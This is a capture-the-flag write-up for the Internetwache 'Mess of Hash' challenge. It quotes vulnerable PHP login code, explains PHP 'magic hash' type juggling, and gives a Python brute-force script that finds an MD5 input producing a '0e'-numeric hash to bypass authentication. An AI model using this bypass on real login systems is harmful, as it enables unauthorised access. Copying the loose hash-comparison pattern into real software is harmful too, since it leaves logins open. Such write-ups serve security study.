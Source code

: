 # Internetwache : Mess of Hash

#### Author: Wh1t3Fox

**Description**:
```
<?php

$admin_user = "pr0_adm1n";
$admin_pw = clean_hash("0e408306536730731920197920342119");

function clean_hash($hash) {
    return preg_replace("/[^0-9a-f]/","",$hash);
}

function myhash($str) {
    return clean_hash(md5(md5($str) . "SALT"));
}
```

After lots of Googling and fighting with what to do we found a helpful post.
[https://www.whitehatsec.com/blog/magic-hashes/](https://www.whitehatsec.com/blog/magic-hashes/)

The idea behind this is that a hash that starts with 0e followed by numbers is translated to
scientific notation, and therefore becomes 0. To login to the website we needed to find a hash
that was the same format. We wrote a script to compute hashes until we found one that met our
requirements. After about 10 minutes we found a hash.

### Code

    import hashlib
    import itertools
    import re

    alphabet = map(chr, range(0x21, 0x7F))

    for x in itertools.product(alphabet, repeat=5):
        md51 = hashlib.md5()
        md52 = hashlib.md5()
        md51.update(''.join(x))
        md52.update(md51.hexdigest())
        md52.update('SALT')
        tmp = md52.hexdigest()
        if re.match(r'^0e\d+$', tmp):
            print ''.join(x), tmp
            break
